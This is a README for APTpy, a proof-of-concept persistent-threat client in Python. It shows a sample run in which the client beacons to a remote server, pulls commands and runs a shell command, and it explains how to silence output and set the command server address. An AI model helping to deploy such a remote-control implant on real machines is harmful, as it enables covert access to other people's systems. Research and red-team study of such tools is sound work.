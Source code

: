 # APTpy
A proof of concept Advanced Persistence Threat written in Python.
For more info about this project, please take a look at this blog post: https://www.nc-lp.com/blog/build-a-custom-apt-module

This is the client side, you can find the code for the server part [in this repository](https://github.com/tampe125/APTserver).

## Usage 
Simply start the script using:  
```
tampe125@Death-Star:~/git/APTpy$ python aptpy.py 

2017-03-09 12:37:10|INFO    | [MAIN] Client id: S1D8VCGV
2017-03-09 12:37:10|DEBUG   | [MAIN] Registering channels
2017-03-09 12:37:10|DEBUG   | [CHANNEL] Next connection attempt will be at 2017-03-09 12:37:25
2017-03-09 12:37:11|DEBUG   | [MAIN] Registering modules
2017-03-09 12:37:11|DEBUG   | [MAIN] Starting channel connection
2017-03-09 12:37:11|DEBUG   | [MAIN] Starting all modules
2017-03-09 12:37:11|DEBUG   | [MAIN] Starting main loop
2017-03-09 12:37:25|DEBUG   | [HTTP] Trying to contact the remote server
2017-03-09 12:37:26|DEBUG   | [HTTP] Got the key from the remote server
2017-03-09 12:37:26|DEBUG   | [HTTP] Trying to get new commands from the remote server
2017-03-09 12:37:26|DEBUG   | [HTTP] Trying to report completed jobs
2017-03-09 12:37:26|DEBUG   | [CHANNEL] Next connection attempt will be at 2017-03-09 12:37:41
2017-03-09 12:37:27|INFO    | [MAIN] Got command {u'cmd': u'ls -la', u'id': 1, u'module': u'ShellModule'} from the queue
2017-03-09 12:37:27|INFO    | [MAIN] Module ShellModule reclaimed the message
2017-03-09 12:37:41|DEBUG   | [HTTP] Trying to get new commands from the remote server
2017-03-09 12:37:42|DEBUG   | [HTTP] Trying to report completed jobs
2017-03-09 12:37:43|DEBUG   | [CHANNEL] Next connection attempt will be at 2017-03-09 12:37:58
```

## Required changes
In order to keep interaction with the filesystem low, some values are hardcoded, so you'll have to change it accordingly to your needs.

**Turn debug off**  
Open [aptpy.py](https://github.com/tampe125/APTpy/blob/master/aptpy.py) file and set the `DEBUG` variable to `False`.  
This will suppress the output and increase the delay between the calls.  

**Change remote host for HTTP channel**  
Open [http.py](https://github.com/tampe125/APTpy/blob/master/lib/channels/http.py) file and change the variable `self._remote_host` with your server.
